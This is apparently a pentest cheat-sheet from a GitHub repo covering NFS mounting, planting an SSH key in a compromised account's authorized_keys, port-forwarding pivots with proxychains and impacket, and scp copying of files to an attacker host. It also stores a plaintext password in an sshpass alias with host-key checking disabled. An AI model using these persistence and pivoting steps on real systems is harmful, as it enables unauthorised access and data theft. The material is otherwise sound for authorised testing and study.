


# Core Plus
This covers all of the random things that don't necessarily pertain to any given section but can be useful during a pentest.

## Mounting Files
Mounting directories you find

If the box is running a nfs network file share start with showmount to list what is available:
```bash
showmount -e {Target IP}
```

This should show you a directory list that's being shared.

Then you'll need to mount the file to do that:
```bash
mkdir /mnt/{name you want}
mount -t nfs {Target IP}:{Name of fileshare listed in showmount} /mnt/{name you wanted}
cd /mnt/{name you wanted}
```
## SSH keys 

### Create Keys 

- You could also run a keygen and store it on a malicious server. 

````bash
maliciousbox$ ssh-keygen -t rsa -b 4096 #Make sure you delete an existing key first. 

maliciousbox$ Leave everything blank and hit enter. It will be stored in /home/.ssh/id_rsa 

#Cat your id_rsa pub and copy everything in that file. 

targetrmachine$ ls -la #see if they have a .ssh directory. 

targetrmachine$ mkdir /var/www/.ssh #Use the home directory we found from passwd file. 

targetrmachine$ ls -la #Confirm it exists. 

targetrmachine$ echo ‘copied info from key’ > /var/www/.ssh/authorized_keys #You can find this info from running a “man” on ssh and “/key” to search for entries with key. #It may error out if you use the double quotes so use single instead. 

maliciousbox$ ssh www-data@{ip of site} 
````

### SSH Alias Login 

- Create aliases to ssh in easier without keys. 

    - `nano ~/.bashrc`

- Scroll down till you see the aliases for ll. 
- Add the following and match your IP and Password. 
    - `alias gh='sshpass -p "{PASS}" ssh -o StrictHostKeyChecking=no -X student@{IP}'` 

### Using Private SSH keys 

- To use private ssh keys, grab the file or copy the contents to a file on your local machine. You also need to chmod the file to make it usable. 

````bash
chmod 600 key 

ssh -i key {username}@{ip}  
````
## Port forwarding 
- Used for pivoting in a network if you've accessed a machine and notice another network.

### Local 

- To access ports from a local machine on your attack box you'll need to setup port forwarding: 

````bash
ssh -p {different port if needed} {username}@{ip} -L {target port}:127.0.0.1:{target port} -NT 
````
> **Example**
>
> `ssh student@10.2.0.2 -L 1111:34.233.98.14:80 -NT`
>
> - In this example you are setting up a port to your local machine with the '-L' switch, you can connect to locally on your machine at '1111'. If you were to go to firefox localhost 1111 you would be accesses the server at 34.233.98.14  
> - This work because the student machine has a connection to the target. By validating through SSH you can now access the target machine. 
> - The switches at the end prevent you from opening a terminal as you normally would in an SSH connection to ensure your port forward remains stable. 
> - '-N' disables remote commands and is good for forwarding.
> - '-T' disables pseudo terminal allocation.
>
> 

### Stacking

- You can burrow deeper by opening another terminal and tunneling through the existing local host connection. This is referred to as *stacking*.

> **Example of stacking:**
>
> `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`  
> `ssh student@localhost -p 1111 -L 2222:34.233.98.14:80 -NT`  
> `firefox localhost:2222`  
>
> - Creates an additional local port on the local host that forwards to a target machine through the previous channel created. So really I'm SSHing into a separate socket each time which is why it's separate authentication. 
> - All the ports are open on your local machine as you make this connection. Should one collapse the others will fail.
> - To stack you need to set the target port to the SSH port on the "jump box". This enable you to setup an additional SSH connection.
>
> 

### Dynamic 

1. Create a port forward as before. 
    - `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`
2. Use proxy chains to make your connection.
    - `ssh student@localhost -D 9050 -p 1111 -NT`
3. Use proxy chains before any command.
    - Ex: `proxychains impacket-GetUserSPNS.py ROSHAR.local/dkholin:Password1`
    - Ex: `proxychains firefox` #This means the firefox that opens on your local machine is from the target machine.

> **NOTE**
> ***
> - Proxychains really only works with TCP so ping and netstat don't work.
> - NMAP is less reliable over proxychains because it can only handle TCP based traffic that is valid and NMAP starts with an ICMP echo request so it will fail already unless you do a TCP full connect scan `nmap -sT -Pn -p <start port>-<end port>` or it will only scan 1000 random ports. 

## SCP  

- **Download a file from a remote directory** (172.16.82.106) **to a local directory** (home/attacker) 
    - `scp target@172.16.82.106:/home/target/secretstuff.txt /home/attacker`

- **Upload a file to a remote directory from a local directory**. 
- The command below is run from the directory with secretsstuff.txt, alternative you can use the whole path to the file. The target directory 
    - `scp secretstuff.txt target@172.16.82.106:/home/target`

- **Copy a file from a remote host to a separate remote host**
    - `scp -3 target1@172.16.82.106:/home/target1/secretstuff.txt target2@172.16.82.112:/home/target2` 

> **Pro Tip**
> ***
> - You can use the '-P' switch to specify which ssh port you're using.
> - This is useful if you've setup a tunnel or changed the SSH port.
> - Ex: `scp -P 1111 secretstuff.txt target@localhost:/home/target` 